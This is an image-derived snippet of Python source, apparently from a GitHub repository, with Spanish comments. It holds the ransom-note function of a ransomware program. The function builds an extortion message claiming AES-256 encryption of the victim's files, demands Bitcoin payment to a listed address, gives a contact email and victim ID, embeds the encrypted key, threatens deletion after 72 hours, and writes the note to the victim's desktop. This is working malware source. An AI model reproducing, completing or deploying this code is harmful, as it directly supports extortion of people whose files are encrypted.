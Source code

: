 def show_ransom_note():
    """Crea una nota de rescate en el escritorio y muestra un pop-up de advertencia."""
    
    # Obtener la ruta del escritorio de forma dinámica
    desktop = os.path.join(os.path.expanduser("~"), "Desktop")
    aes_key_encrypted = load_aes_key_encrypted()
    aes_key_encrypted_b64 = base64.b64encode(aes_key_encrypted).decode()
    victim_id = agent.get_agent_id()

    # Contenido de la nota de rescate
    note = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados **AES-CBC** de **256 bits**.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en Bitcoin (BTC) a la siguiente dirección:
   1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa

2. Envía un correo a recoveryourfiles@genaixciphers.com con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: {victim_id}

3. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

----------------------------
  INFORMACIÓN SOBRE TU CLAVE 
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

{aes_key_encrypted_b64}

Atentamente, 
GenAIx Ciphers
"""

    # Ruta donde se guardará la nota de rescate
    note_path = os.path.join(desktop, "README_IMPORTANTE.txt")
